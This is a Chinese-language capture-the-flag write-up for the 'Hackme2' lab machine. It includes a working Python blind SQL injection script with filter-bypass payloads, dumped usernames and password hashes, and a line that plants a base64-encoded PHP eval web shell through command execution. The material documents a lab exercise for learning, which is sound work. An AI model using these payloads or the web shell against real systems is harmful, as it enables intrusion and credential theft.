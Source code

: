 # Hackme2

## 初步信息收集



### ip+服务探测

和之前hackme1一模一样，没啥多说的直接开扫



### web目录扫描

也是类似的

![image-20221215173451093](./index/image-20221215173451093.png)



## 布尔盲注

和上一题不一样这里有过滤，根据猜测是使用的like语句，同时过滤了空格、=等、写个脚本获取结果

```python
import requests


url = "http://172.20.10.6/welcome.php"


headers = {
    "cookie":"PHPSESSID=np84ueg24g6c04sr8jsu5rddch"
}

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # payload = f'if(ascii(substr((select/**/group_concat(schema_name)/**/from/**/information_schema.schemata),{i},1))>{mid},1,0)'
        # payload = f'if(ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()),{i},1))>{mid},1,0)'
        # payload = f'if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name="users"),{i},1))>{mid},1,0)'
        payload = f'if(ascii(substr((select/**/group_concat(user,"|",pasword)/**/from/**/users),{i},1))>{mid},1,0)'

        data = {
            "search": f"test%25'||{payload}#"
        }
        r = requests.post(url, data=data, headers=headers)
        if "Anonymous Hackers" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```

结果

```
user1|5d41402abc4b2a76b9719d911017c592,user2|6269c4f71a55b24bad0f0267d9be5508,user3|0f359740bd1cda994f8b55330c86d845,test|05a671c66aefea124cc08b76ea6d30bb,superadmin|2386acb2cf356944177746fc92523983,test1|05a671c66aefea124cc08b76ea6d30bb,aaaaaa|0b4e7a0e5fe84ad35fb5f95b9ceeac79

```

同样获取管理员密码`Uncrackable`

## 文件上传

同样的直接上传被过滤了

![image-20221215183206873](./index/image-20221215183206873.png)

经过测试是过滤了后缀名，并且大小写都不行，比如说可以上传`.user.ini .htaccess`但是另一方面并不知道上传的目录文件名，所以只能放弃了



## RCE

尝试一些基本类型比如SSTI

![image-20221215183831172](./index/image-20221215183831172.png)



毕竟之前的用户都搜不到，所以不是sql查询，猜测可能要么调用了系统命令并且可能有eval，之后发现反引号成功执行命令

![image-20221215184012439](./index/image-20221215184012439.png)

猜测用到了eval，写个shell进去

```
file_put_contents("1.php",base64_decode("PD9waHAgZXZhbCgkX1BPU1RbMV0pOw=="));
```

## 提权

一样的思路成功提权root

![image-20221215184857634](./index/image-20221215184857634.png)
